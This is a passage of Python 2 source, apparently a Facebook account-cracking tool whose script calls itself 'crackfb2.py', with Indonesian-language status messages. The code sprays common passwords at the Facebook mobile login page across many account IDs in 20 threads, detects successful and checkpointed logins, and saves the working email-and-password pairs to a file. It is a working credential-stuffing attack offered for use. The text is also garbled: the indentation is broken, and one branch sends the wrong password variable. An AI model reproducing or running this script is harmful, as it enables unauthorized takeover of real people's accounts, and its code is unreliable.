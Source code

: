 															CP.append(em)
														else:
															pz7 = '102030'
															rex = requests.post("https://mbasic.facebook.com/login.php", data = {"email" : em, "pass" : pz7, "login" : "submit"}, headers = {"user-agent" : "Mozilla/5.0 (Linux; Android 7.0; SM-G610M Build/NRD90M) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.100 Mobile Safari/537.36"})
															xo = rex.content
															if 'mbasic_logout_button' in xo or 'save-device' in xo:
																print '\033[0;97m   [OK]\033[0;97m '+em+' \033[0;97m• \033[0;97m'+pz7
																oke = open('done/bangla.txt', 'a')
																oke.write('\n   [OK] '+em+' • '+pz7)
																oke.close()
																oks.append(em)
															else:
																if 'checkpoint' in xo:
																	print '\033[0;97m   [CP]\033[0;97m '+em+' \033[0;97m•\033[0;97m '+pz7
																	cek = open('done/bangla.txt', 'a')
																	cek.write('\n   [CP] '+em+' • '+pz7)
																	cek.close()
																	CP.append(em)
																	else:
															pz8 = '123456789'
															rex = requests.post("https://mbasic.facebook.com/login.php", data = {"email" : em, "pass" : pz7, "login" : "submit"}, headers = {"user-agent" : "Mozilla/5.0 (Linux; Android 7.0; SM-G610M Build/NRD90M) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.100 Mobile Safari/537.36"})
															xo = rex.content
															if 'mbasic_logout_button' in xo or 'save-device' in xo:
																print '\033[0;97m   [OK]\033[0;97m '+em+' \033[0;97m• \033[0;97m'+pz8
																oke = open('done/bangla.txt', 'a')
																oke.write('\n   [OK] '+em+' • '+pz8)
																oke.close()
																oks.append(em)
															else:
																if 'checkpoint' in xo:
																	print '\033[0;97m   [CP]\033[0;97m '+em+' \033[0;97m•\033[0;97m '+pz8
																	cek = open('done/bangla.txt', 'a')
																	cek.write('\n   [CP] '+em+' • '+pz8)
																	cek.close()
																	CP.append(em)
		except:
			pass
	p = ThreadPool(20)
	p.map(main, id)
	print ("\033[0;91m╚═══════════════════════════════════════════════════════════════╝")
        print ("\033[0;91m╔═══════════════════════════════════════════════════════════════╗")
	print '\033[0;97m   • \033[0;97mSelesai ...'
	print"\033[0;97m   • \033[0;97mTotal \033[0;97mOK\033[0;97m/\x1b[0;97mCP \033[0;97m: \033[0;97m"+str(len(oks))+"\033[0;97m/\033[0;97m"+str(len(CP))
	print '\033[0;97m   • \033[0;97mOK\033[0;97m/\x1b[0;97mCP \033[0;97mfile tersimpan \033[0;97m: \033[0;97mdone/bangla.txt'
	print "\033[0;91m╚═══════════════════════════════════════════════════════════════╝"
	raw_input("\033[0;97m   < \033[0;97mKembali\033[0;97m >")
	os.system("python2 crackfb2.py")
	